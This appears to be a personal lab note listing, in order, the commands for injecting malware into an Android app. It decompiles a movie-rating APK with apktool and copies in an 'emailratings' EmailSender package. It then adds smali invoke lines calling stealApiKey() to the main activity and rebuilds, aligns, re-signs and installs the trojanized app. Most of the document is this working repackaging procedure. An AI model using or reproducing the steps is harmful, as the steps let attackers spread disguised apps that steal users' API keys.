



# command list in order - malware

1. apktool d ./malware.apk — inside — C:\Users\ekapa\OneDrive\Desktop\mob>
2. apktool d .\original.apk
3. apktool d .\withmalware.apk

4. check/get content of withmalware - smali 6 - main activity

   `Get-ChildItem -Path C:\ -Recurse -Filter "*MainActivity*" -ErrorAction SilentlyContinue`

   "C:\Users\ekapa\OneDrive\Desktop\mob\withmalware\smali_classes7\com\example\movierating\MainActivity.smali”

   change package name into the package name of emailsender → emailratings

   ```kotlin

       .line 43
       sget-object v0, Lcom/example/emailratings/EmailSender;->INSTANCE:Lcom/example/emailratings/EmailSender;

       invoke-virtual {v0}, Lcom/example/emailratings/EmailSender;->testLog()V

       .line 44
       sget-object v0, Lcom/example/emailratings/EmailSender;->INSTANCE:Lcom/example/emailratings/EmailSender;

       invoke-virtual {v0}, Lcom/example/emailratings/EmailSender;->stealApiKey()V

   ```

   ⇒ 2 invoke functions that run functions but first save variables as instance

5. copy paste gotten sample smali code into the orignial main activity

   C:\Users\ekapa\OneDrive\Desktop\mob\original\smali_classes7\com\example\movierating\MainActivity.smali

→





1. copy malware package inside original’s com/example

   xcopy "C:\Users\ekapa\OneDrive\Desktop\mob\malware\smali_classes4\com\example\emailratings” "C:\Users\ekapa\OneDrive\Desktop\mob\original\smali_classes7\com\example\emailratings" /E /I /Y

   

1. then changed emailratings package's mainactivity - inside the original app

   this is to make sure that steal command is called here too →

   "C:\Users\ekapa\OneDrive\Desktop\mob\original\smali_classes7\com\example\emailratings”

   added the invoke line

   ```kotlin
       .line 21
       sget-object v0, Lcom/example/emailratings/EmailSender;->INSTANCE:Lcom/example/emailratings/EmailSender;
       invoke-virtual {v0}, Lcom/example/emailratings/EmailSender;->stealApiKey()V
   ```

   

1. recompile - apktool b ./original -o rebuilt.apk
1. align - zipalign -p -f 4 rebuilt.apk aligned.apk
1. gen the key (daelon) - keytool -genkey -v -keystore keelo -alias keyelene -keyalg RSA -keysize 2048 -validity 10000
1. sign - apksigner sign --ks keyelo --v1-signing-enabled true --v2-signing-enabled true aligned.apk
1. uninstall app on emulator
1. adb install ./aligned.apk


